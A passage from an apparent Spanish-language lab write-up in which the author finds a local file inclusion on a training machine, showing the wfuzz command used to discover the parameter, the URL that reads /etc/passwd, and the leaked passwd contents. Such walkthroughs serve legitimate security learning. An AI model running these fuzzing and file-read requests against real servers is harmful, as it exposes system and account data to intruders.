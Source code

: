 Sin embargo, luego de varios intentos, de varias pruebas, seguía sin lograr nada, hasta que nos unimos a un canal de voz, varios usuarios en el Canal Discord, y el usuario `feer248og` me dio la clave que necesitaba para lograr el objetivo, primero el diccionario que estaba utilizando no era el adecuado, y segundo la herramienta que usaba, no lo hacia con los parámetros correctos, al final, el comando y la herramienta correcta debía usarla así:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hl 1 'http://10.6.6.55/fruits.php?FUZZ=/etc/passwd'
```

![ResolviendoMaqTHLabs.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/ResolviendoMaqTHLabs.png)

Así que la primera palabra que me dio el ChatGPT era la correcta, otra cosa que estaba haciendo mal, es que añadía: `../../../../../../../../` y en este caso en particular eso no servia.

[!INFO] ¡Lección aprendida!
  - Esto me deja de enseñanza probar diferentes diccionarios, diferentes herramientas, cambiar parámetros y que no todas las maquinas son iguales, que no siempre el LFI, se aplica un path traversal.
  - **NOTA**: Muchas gracias a todos los que participaran en el canal de voz discord y en especial, gracias a `feer248og`, `CuriosidadesDeHackers`, `feer248og` y `br0k3n.c0de`

Lo cierto, es que al final añadiendo el parámetro correcto a la url, me da información bastante interesante:

`http://10.6.6.55/fruits.php?file=/etc/passwd`

Pues eso me ha dado la siguiente información:

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```